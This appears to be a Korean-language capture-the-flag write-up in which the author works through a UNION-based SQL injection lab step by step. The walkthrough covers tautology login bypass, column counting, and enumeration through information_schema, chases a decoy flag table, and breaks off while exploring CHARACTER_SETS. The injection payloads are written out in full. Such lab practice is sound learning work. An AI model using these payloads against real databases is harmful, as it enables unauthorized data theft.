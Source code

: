 <img width="1172" alt="Image" src="https://github.com/user-attachments/assets/b44f8ecc-3341-4a44-b0b4-2b40fd518335" />

`' OR '1'='1-- `  입력해봤더니 `doldol`의 원래 계정대로 출력되는 것을 확인할 수 있었습니다. 

<img width="1155" alt="Image" src="https://github.com/user-attachments/assets/c1126c8b-2fff-4213-bae1-d7d3f5a5c4ae" />


`doldol' UNION SELECT 1,2,3,4,5,6-- `를 입력하여 컬럼이 6개라는 것을 확인했습니다. 
<img width="1161" alt="Image" src="https://github.com/user-attachments/assets/9a5de7b2-6b75-44ef-85ce-3016283d22ac" />

`doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,6-- `
Info부분에 6이 찍히는 것을 확인할 수 있습니다. 
<img width="1156" alt="Image" src="https://github.com/user-attachments/assets/fabf6106-9485-4ed5-95d1-1d6c48a8fe55" />

`doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,database()-- `
DB 이름이 sqli_5 라는 것을 확인할 수 있습니다.
<img width="1168" alt="Image" src="https://github.com/user-attachments/assets/d00cfe96-5a49-49ee-bc5a-f4ebcde4e707" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,table_name FROM information_schema.tables WHERE table_schema='sqli_5'-- 
```
> 테이블 이름이 flag_honey 라는 것을 확인 
<img width="1142" alt="Image" src="https://github.com/user-attachments/assets/c9326907-2abc-4960-94ed-0da66ac5f188" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,column_name FROM information_schema.columns WHERE table_name='flag_honey'-- 
```
> flag_honey 테이블에서 flag를 발견
<img width="1145" alt="Image" src="https://github.com/user-attachments/assets/6dc80c99-7926-46d9-95d7-052aa429cad8" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,flag FROM flag_honey-- 
```
> 하핳 아니라네 ;ㅁ;
<img width="1149" alt="Image" src="https://github.com/user-attachments/assets/ab915c23-1d40-4a97-b22d-97776372ee7a" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,table_name FROM information_schema.tables--
```
> 어디서 놓친게 있나 생각해봐도 없는데 information_schema.tables에 where 조건문을 안쓰면 테이블이 왕창 나온다는 것을 기억하고 확인해보니 CHARACTER_SETS 테이블이 있는 것을 확인

<img width="1171" alt="Image" src="https://github.com/user-attachments/assets/9ed76ed7-ada8-4001-a22e-eeaada16c9aa" />

### ❗ 여기서부터 삽질의 하이라이트

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,column_name FROM information_schema.columns WHERE table_name='CHARACTER_SETS'--
```
> CHARACTER_SET_NAME 컬럼 발견
<img width="1127" alt="Image" src="https://github.com/user-attachments/assets/f1c5eed3-1c11-4373-b2bd-e7adeac12530" />
